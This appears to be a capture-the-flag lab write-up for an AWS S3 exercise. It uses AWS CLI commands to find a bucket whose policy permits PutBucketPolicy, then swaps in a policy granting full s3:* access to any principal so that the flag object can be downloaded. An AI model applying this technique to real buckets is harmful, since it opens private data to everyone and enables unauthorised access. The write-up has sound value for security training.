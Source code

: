 # Writable Bucket Policy

Check S3 buckets. `aws s3api list-buckets --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/227658505-42416859-b7c1-4f99-befd-0c2f5cff5f57.png)

Check objects present in S3 bucket. `aws s3api list-objects --bucket s3-writable-policy-147461436620 --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/227658680-712f83da-a531-4e15-9f8a-1b0dac580a44.png)

Trying to download the flag will give a forbidden permission. Lets check bucket policy
```
aws s3 cp s3://s3-writable-policy-147461436620/flag ./ --profile PTAcademyJllerena
aws s3api get-bucket-policy --bucket s3-writable-policy-147461436620 --output text --profile PTAcademyJllerena | jq
```
![image](https://user-images.githubusercontent.com/46797181/227659776-294ab081-3256-4b70-9f46-d25eff6e1b64.png)

The policy allows to put bucket policy. Create a file to update the policy.

```
{
  "Statement": [
  {
    "Action": [
     "s3:GetBucketPolicy",
     "s3:PutBucketPolicy"
    ],
    "Effect": "Allow",
    "Principal": {
     "AWS": "*"
    },
    "Resource": "arn:aws:s3:::s3-writable-policy-147461436620"
  },
   {
     "Action": "s3:*",
     "Effect": "Allow",
     "Principal": {
     "AWS": "*"
     },
     "Resource": "arn:aws:s3:::s3-writable-policy-147461436620/*"
    }
  ],
  "Version": "2012-10-17"
}
```

Update the new policy for the bucket and try downloading the flag object.

```
aws s3api put-bucket-policy --bucket s3-writable-policy-147461436620 --policy file://policy.json --profile PTAcademyJllerena
aws s3 cp s3://s3-writable-policy-147461436620/flag ./ --profile PTAcademyJllerena
cat flag

```
![image](https://user-images.githubusercontent.com/46797181/227661636-0620daab-afe2-4b7a-bdd1-e6c6222daa2b.png)

EXERCISE COMPLETED !!!



















